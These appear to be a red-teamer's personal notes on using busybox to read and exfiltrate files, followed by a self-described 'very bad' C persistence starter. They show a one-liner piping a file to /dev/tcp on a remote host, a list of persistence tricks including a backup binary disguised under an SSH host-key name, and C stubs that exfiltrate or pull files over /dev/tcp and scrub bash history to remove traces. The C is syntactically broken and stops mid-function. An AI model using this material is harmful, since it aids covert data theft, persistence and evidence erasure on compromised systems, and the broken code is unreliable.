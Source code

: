 ```
LFILE=file_to_read
./busybox cat "$LFILE"
```

We could also exfiltrate without httpd with cat
```
./busybox cat $FILE > /dev/tcp/10.10.10.10/80
```

- Beacon with jitter
- Add a cronjob
- Create a backup for persistence in 	
	- binary /etc/ssh/ssh_host_cryptox_key
	- source /etc/ssh/ssh_host_cryptox_key.pub
- Run something in the background `nohup & `

Very bad C persistence starter
```c
#include <stdio.h>
#include <time.h>
#include <signal.h>

// NAME
// EXEC_CTXT // ./cheeseBox -r 10.10.10.10 -p 6969 
// LHOST
// LPORT
// RPORT
// LPORT
// DEVSHM_STAT 
// SRC

void stdoutCmds() 
{
    
    
} 

void enumSystem()
{
    system("date");
    getenv();
}

void rmIoCs() 
{
        // binary name
    system("sed -i /root/.bash_history 's/NAME//g' ");
}

void exfilFile(*char filepath, int port)
{
    system("./busybox cat $FILE > /dev/tcp/RHOST/RPORT")
}

void infilFile(*char filepath, int port)
{
    // nice Ippsec cat redirect
    system("./busybox cat $FILE < /dev/tcp/RHOST/RPORT")
}

void addCronjob(*char  )


void httpdFile(*char filepath, int port) 
{
```